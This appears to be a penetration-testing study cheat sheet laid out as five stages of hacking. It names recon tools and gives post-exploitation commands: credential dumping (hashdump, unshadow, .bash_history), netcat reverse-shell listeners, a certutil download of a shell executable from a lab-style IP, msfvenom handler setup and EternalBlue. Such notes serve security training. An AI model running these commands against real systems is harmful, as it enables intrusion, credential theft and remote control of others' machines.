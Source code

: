 5 STAGES OF HACKING

### 1 Reconnaissance (Info gathering)
Recon has two parts 
1. Passive
2. Active (Scanning and Enumeration)

In this stage we also have to do the following
	1. Target Validation
		WHOIS, nslookup, dnsrecon
	2. Finding subdomains
		Google fu, dig, nmap, sublist3r, bluto, crt.sh
	3. Fingureprinting
		nmap, wappalyzer, whatweb, builtwhith, netcat
	4. Data breaches
		Havelbeenpwned, breach-parse, weleakinfo
		
		Note: If you find a database machine with authentication, try the default creds from the internet.







### 2 Scanning and Enumeration
1. Nmap
2. Source code analysis
3. Nikto
4. SMB
5. searchsploit

NOTE: If you hit a deadend, search the version exploit on google.
### FTP: We have two options to exploit.
1. Exploit the ftp software version related vulnerabilities.
2. Exploit the ftp by uploading a shell then using a webserver directory to execute the shell.  	 

### 3 Gaining Access (Exploitation)
NOTE: Always use auxerally scanners to confirm the vulnerability exists before sending an exploit.
getuid
sysinfo
history
cat .bash_history
sudo -l (Search for (root) NOPASSWD )
Architecture
getsystem
hashdump
shell
locate
unshadow
Staged Payload (generic/shell/reverse_tcp)
Unstaged Payload (generic/shell_reverse_tcp)
Ethernal Blue (Windows 7 + SMB) // Manual way to exploit Eternal blue >> Autoblue.py
netstat (Show open ports)
search suggester
binary put file_name (Use this command to send file via ftp)
nc -nvlp 4447 (Netcat lsitner)
searchsploit
sourcecode analysis of the webpage
migrate _processnumber_ (Windows)
nikto -h URL


### 4 Maintaining Access

### 5 Covering tracks


### Screenshot taking tool for windows
Greenshot

### Note taking tool 
Keep note

For each host make sure you are creating a Keep note file.
Within the file
Create two sections
1. Scanning
	port number -- ip
	related vulnerabilites

	Nikto Scan results

2. Vulnerabilities
Port number - Potentially vulnerable to XXXX (url)

### Low hanging fruties
80
443 / SSL
139/smb
445/SMB
Webalizer
SSH

### Rapid7 and Exploit DB


### Dirbuster File Extensions

Windows Server
asm,asmx,asp,aspx,bak

Apache
php,zip,rar,bak

### MSFVENOM

sEARCH msfvenom cheat sheet on google

 use exploit/multi/handler (Exploit handler is a listner) 
 Now you have to set a payload for the exploit handler

NOTE: Use the same tcp_reverse shell as used in the msfvenom
set payload ......tcp_reverse


### HTTP Server (Linux)
python -m SimpleHTTPServer 80
You hosted a file on linux using the above command then you can get the file in windows by the below command.
  
### Transporting file to Windows
certutil -urlcache -f http://10.10.14.24/sh.exe c:\user\desktop

### Transporting files to Linux
wget http://IP_ADDRESS/file_name

### Netcat listner
nc -nvlp 1234

### Linx privilage escalation scripts
LinEnum.sh
Linuxprivchecker.py

### Exploit 
Local (Use local when you have already gained access to the system.)
exploits/linux/local/xyz.php
or 
Remote (Use remote to gain access to the system)
exploits/linux/remote/xuz.php

### tty issue
search on google tty escape

### Webapp Sec
Learn all the allowed methods 

Learn all the error codes.
